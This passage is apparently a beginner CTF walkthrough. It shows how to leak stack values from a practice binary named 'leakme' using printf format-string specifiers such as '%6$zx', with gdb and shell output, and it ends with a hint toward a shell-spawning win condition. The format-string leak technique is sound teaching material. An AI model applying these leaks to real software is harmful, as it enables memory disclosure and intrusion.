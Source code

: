 ```
0152| 0x7fffffffe4d8 --> 0x46c8abb000000000 # what do we have here!!!
gdb-peda$ quit
```

You can see that at the top of the stack, we have the buffer containing our format string. That's the sixth location, `%6$zx` (since the first argument is consumed by printf, and the next 5 are in the registers). So, if you count each line starting from 1 and add 5, that gives you the offset you need...

```
# this is a bash trick that is very usefuly to test, because you can up+enter quickly:
# single quotes are important ($ is a special character in bash)
ian@underclassmen-vm:~$ ./leakme <<< '%6$zx'
Give me something to say:
Holy 787a243625, Batman!
Hey, what number am I thinking of?
Nope!
ian@underclassmen-vm:~$ ./leakme <<< '%7$zx'
Give me something to say:
Holy 0, Batman!
Hey, what number am I thinking of?
Nope!
ian@underclassmen-vm:~$ ./leakme <<< '%8$zx'
Give me something to say:
Holy 7fff94d9f268, Batman!
Hey, what number am I thinking of?
Nope!
ian@underclassmen-vm:~$ ./leakme <<< '%9$zx'
# and so on....
# You could also script this quite easily to dump the entire stack.
# That's probably how I would solve it very quickly during a time-sensitive CTF.
```

Notice that these correspond to the stack dump from above.

Find the right number. Paste it into the program:
```
ian@underclassmen-vm:~$ ./leakme
Give me something to say:
%X$zx
Holy 252f251d00000000, Batman!
Hey, what number am I thinking of?
252f251d00000000
Nope!
```

There's one last thing. If you've made it this far, I'm confident you can figure it out. Here's a hint:
```c
    int user_input = atoi(input_string); // hmm, what does this function do?
    if(user_input == magic_number){
        printf("You win!! Your number was:\n");
        puts(input_string);
        fflush(stdout);
        system("/bin/sh");

```
